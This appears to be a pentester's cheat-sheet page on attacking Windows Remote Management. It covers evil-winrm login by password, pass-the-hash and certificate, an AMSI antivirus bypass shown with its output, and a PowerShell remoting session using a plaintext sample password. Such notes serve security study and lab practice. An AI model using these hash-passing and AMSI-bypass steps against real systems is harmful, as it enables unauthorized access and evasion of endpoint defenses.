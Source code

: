 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WinRM (5985,5986)

## Authentication

{% tabs %}
{% tab title="Password-based" %}
```bash
evil-winrm -i <ip> -u <user> -p <pass>
```
{% endtab %}

{% tab title="Pass-the-Hash" %}
```bash
evil-winrm -i <ip> -u <user> -H <hash>
```
{% endtab %}

{% tab title="Certificate & Key" %}
```bash
# -S -> SSL
evil-winrm -i 10.10.11.152 -S -k <key> -c <crt>
```
{% endtab %}
{% endtabs %}

## AMSI Bypass

{% tabs %}
{% tab title="1. Check" %}
{% code overflow="wrap" %}
```powershell
> #amsiscanbuffer
At line:1 char:1
+ #amsiscanbuffer
+ ~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
```
{% endcode %}
{% endtab %}

{% tab title="2. Bypass" %}
```powershell
> Bypass-4MSI

Info: Patching 4MSI, please be patient...
[+] Success!
```
{% endtab %}

{% tab title="3. Confirm" %}
```powershell
> #amsiscanbuffer
```
{% endtab %}
{% endtabs %}

## PowerShell Remoting

**PowerShell Remoting** by default uses **WinRM** for Cmdlets such as `Enter-PSSession`. Therefore, a user needs to be in the local group `Remote Management Users` to be a valid user for these Cmdlets. However, instead of WinRM, SSH can also be used for PowerShell remoting.

> _Creating a PowerShell remoting session via WinRM in a bind shell can cause unexpected behavior. Opt for `evil-winrm` instead._

{% code overflow="wrap" %}
```powershell
> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
whoami
clientwk220\daveadmin
```
{% endcode %}
